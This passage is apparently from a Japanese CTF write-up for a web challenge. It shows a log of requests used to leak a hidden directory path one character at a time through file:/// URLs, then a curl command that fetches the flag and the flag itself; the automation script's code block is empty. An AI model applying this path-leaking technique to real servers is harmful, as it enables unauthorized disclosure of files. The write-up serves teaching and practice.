 すると以下のような大量のリクエストが届く。  

```
GET /?no=file:///var/www/htmls/ctf/4/
GET /?no=file:///var/www/htmls/ctf/6/
GET /?no=file:///var/www/htmls/ctf/z/
GET /?no=file:///var/www/htmls/ctf/o/
GET /?no=file:///var/www/htmls/ctf/k/
GET /?no=file:///var/www/htmls/ctf/2/
GET /?no=file:///var/www/htmls/ctf/1/
GET /?no=file:///var/www/htmls/ctf/s/
GET /?no=file:///var/www/htmls/ctf/x/
GET /?no=file:///var/www/htmls/ctf/5/
GET /?no=file:///var/www/htmls/ctf/m/
GET /?no=file:///var/www/htmls/ctf/3/
GET /?no=file:///var/www/htmls/ctf/e/
GET /?no=file:///var/www/htmls/ctf/0/
GET /?no=file:///var/www/htmls/ctf/w/
GET /?no=file:///var/www/htmls/ctf/a/
GET /?no=file:///var/www/htmls/ctf/u/
GET /?no=file:///var/www/htmls/ctf/c/
GET /?no=file:///var/www/htmls/ctf/y/
GET /?no=file:///var/www/htmls/ctf/l/
GET /?no=file:///var/www/htmls/ctf/d/
GET /?no=file:///var/www/htmls/ctf/g/
GET /?no=file:///var/www/htmls/ctf/p/
GET /?no=file:///var/www/htmls/ctf/t/
GET /?no=file:///var/www/htmls/ctf/r/
GET /?no=file:///var/www/htmls/ctf/8/
GET /?no=file:///var/www/htmls/ctf/7/
GET /?no=file:///var/www/htmls/ctf/n/
GET /?no=file:///var/www/htmls/ctf/9/
GET /?no=file:///var/www/htmls/ctf/q/
GET /?no=file:///var/www/htmls/ctf/v/
GET /?no=file:///var/www/htmls/ctf/h/
GET /?no=file:///var/www/htmls/ctf/f/
GET /?no=file:///var/www/htmls/ctf/b/
GET /?no=file:///var/www/htmls/ctf/i/
```
ただし、`GET /?no=file:///var/www/htmls/ctf/j/`のみ存在していない。  
これは`file:///var/www/htmls/ctf/j/`が存在していることを意味する。  
こうして一文字ずつ特定していけばよい。  
以下のleak.pyを用いてリクエストの送信を自動化する。  

```python
```
最後にどのディレクトリも存在しないリクエストが届いた場合には、その下に`flag.txt`がある。  
以下のように読み取る。  

```bash
$ curl 'http://localhost:31417/flag/j/z/y/z/p/q/b/p/n/p/a/k/y/0/f/i/e/b/m/9/2/r/q/j/'
ctf4b{h7ml_15_7h3_l5_c0mm4nd_h3h3h3!}
```
flagが得られた。  

## ctf4b{h7ml_15_7h3_l5_c0mm4nd_h3h3h3!}